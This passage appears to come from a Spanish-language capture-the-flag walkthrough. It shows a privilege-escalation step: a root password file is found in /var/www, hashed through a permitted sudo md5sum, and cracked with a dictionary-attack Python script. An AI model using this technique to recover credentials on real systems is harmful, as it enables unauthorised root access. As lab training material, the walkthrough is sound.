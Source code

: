 ```shell
ls -la /var/www
```

Info:

```
total 16
drwxr-xr-x  3 root     root     4096 Nov 21  2022 .
drwxr-xr-x 12 root     root     4096 Nov 20  2022 ..
-rw-r-----  1 root     root       12 Nov 21  2022 ROOTPASS
drwxrwxr--  5 www-data www-data 4096 Nov 18  2022 html
```

Veremos que hay un archivo llamado `ROOTPASS` por lo que vamos a calcular su `md5` de esta forma.

```shell
sudo md5sum /var/www/ROOTPASS
```

Info:

```
85c73111b30f9ede8504bb4a4b682f48  /var/www/ROOTPASS
```

Ahora desde nuestro `host` vamos a crackear dicho `hash` para poder obtener lo que se supone que es el `password` del usuario `root`.

> crack\_md5.py

```python
#!/usr/bin/env python3
import hashlib
import sys
import os

def main():
    if len(sys.argv) != 3:
        print(f"\nUso: {sys.argv[0]} <hash_md5> <ruta_diccionario>\n")
        sys.exit(1)

    target_md5 = sys.argv[1].strip().lower()
    diccionario = sys.argv[2]

    if not os.path.isfile(diccionario):
        print(f"\n[ERROR] El archivo '{diccionario}' no existe.\n")
        sys.exit(1)

    print(f"\n[*] Buscando contraseña para el hash MD5:\n    {target_md5}")
    print(f"[*] Usando diccionario:\n    {diccionario}\n")

    with open(diccionario, encoding="latin-1", errors="ignore") as wordlist:
        for idx, password in enumerate(wordlist, 1):
            password = password.strip()
            computed_hash = hashlib.md5((password + "\n").encode()).hexdigest()

            if computed_hash == target_md5:
                print(f"\n[✔] ¡Contraseña encontrada en la línea {idx}!: {password}\n")
                break
        else:
            print("\n[✘] No se encontró la contraseña en el diccionario.\n")

if __name__ == "__main__":
    main()
```
